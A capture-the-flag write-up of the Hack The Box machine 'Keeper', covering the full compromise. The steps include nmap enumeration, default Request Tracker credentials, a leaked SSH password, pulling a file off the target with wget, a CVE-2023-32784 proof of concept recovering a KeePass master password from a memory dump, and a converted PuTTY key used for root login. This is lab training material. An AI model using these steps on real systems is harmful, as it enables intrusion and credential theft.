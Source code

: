 ```yaml
---
title: Writeup for the machine Keeper from Hackthebox 
layout: post
image: "https://github.com/0xRar/0xrar.github.io/assets/33517160/8cae3e0d-8b98-4199-9a19-eaac13f71caa"
author: "0xRar"
tags:
- Writeups
- HackTheBox
- Boot2Root
- Web
---
```


## Machine Information
- Name: Keeper
- Difficulty: Easy
- URL: [https://app.hackthebox.com/machines/Keeper] 

---

## Initial Enumeration
Starting with nmap:
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ nmap -p- -sV keeper.htb

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 12:32 EST
Warning: 10.10.11.227 giving up on port because retransmission cap hit (10).
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.13s latency).
Not shown: 65333 closed tcp ports (conn-refused), 200 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.37 seconds
```

### HTTP (80)
Port 80 is hosting a static website that has a link to redirect to (`http://tickets.keeper.htb/rt/`),
which has `Request Tracker` its an enterprise-grade issue tracking system.

![port80](https://github.com/0xRar/0xrar.github.io/assets/33517160/a0ea394c-9013-4c8c-bd3a-848e3ffbefc3)

![rt](https://github.com/0xRar/0xrar.github.io/assets/33517160/49c954a0-6dd9-4e51-9da6-c5b3309d1115)

Looking for vulnerabilities for `Request Tracker version 4.4.4` turned out to be unfruitful,
so since we have a login looking for default creds is always a good idea, which i found on
the github repo: <a href="https://github.com/bestpractical/rt">(bestpractical/rt)</a>.

```
NOTE: The default credentials for RT are:
    User: root
    Pass: password
Not changing the root password from the default is a SECURITY risk!
```

Now that i had access to RT, I started looking for useful information and i found the users list,

![users list](https://github.com/0xRar/0xrar.github.io/assets/33517160/0d3d7827-4f9b-4f80-b11c-365db9422fd7)

the user `lnorgaard` had a note that is a password! 

![lnorgaard_pass](https://github.com/0xRar/0xrar.github.io/assets/33517160/908d9061-b230-4894-b236-59d242962ed6)

---

## Initial Foothold
Now there is a username and a password which i used to get a shell on the machine via ssh,
`lnorgaard:Welcome2023!`.

Listing the home directory content of `lnorgaard` shows a zip file `RT30000.zip`

```
lnorgaard@keeper:~$ ls 
RT30000.zip user.txt
```

I used a basic python web server to transfer it to my machine:
```
Target machine:
lnorgaard@keeper:~$ python3 -m http.server

Attacker machine:
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ wget http://keeper.htb:8000/RT30000.zip
```

---

## Privilege Escalation
Inside of the zip archive we have 2 files `KeePassDumpFull.dmp & passcodes.kdbx`,
kdbx is a file format for KeePassXC which is an offline password manager, at first
i thought i can just crack the hash of the database but that failed.

So second option for me was to check kdbx v2.x (`file passcodes.kdbx`)
and look for any related CVEs and i found `CVE-2023-32784`, this vulnerability can be
less interesting when you see that you need a keepass process dump which won't be 
a big deal for this machine because we have a dump of the process.

PoC I Used: [https://github.com/CMEPW/keepass-dump-masterkey]

The poc script will try and guess the letters of the master password:
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ python poc.py -d KeePassDumpFull.dmp
[.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

So the last possible password is the right one but its missing some letters,
so i google'd it and it turned out to be the name of a danish red berry pudding,
`rødgrød med fløde`.

![masterpass](https://github.com/0xRar/0xrar.github.io/assets/33517160/f8ab9eed-3501-46f5-954f-04e7a61fab80)

now that we have the password database we can see the root user notes which
has the contents of a .PPK or PuTTY Private Key using the PuTTYgen software,
the same way the ppk was created you can also turn it into an openssh pem file

![ppk](https://github.com/0xRar/0xrar.github.io/assets/33517160/cab7422f-ac0d-4dae-b4d8-43d554b1b2ea)

to turn the ppk to a private openssh i used this command:
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ puttygen key.ppk -O private-openssh -o root.pem
```

Logging in using the key: 
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ ssh -i root.pem root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

root@keeper:~# whoami
root
```

and thats it ! 

Thank You For Reading ❤

[https://app.hackthebox.com/machines/Keeper]: https://app.hackthebox.com/machines/Keeper
[https://github.com/CMEPW/keepass-dump-masterkey]: https://github.com/CMEPW/keepass-dump-masterkey
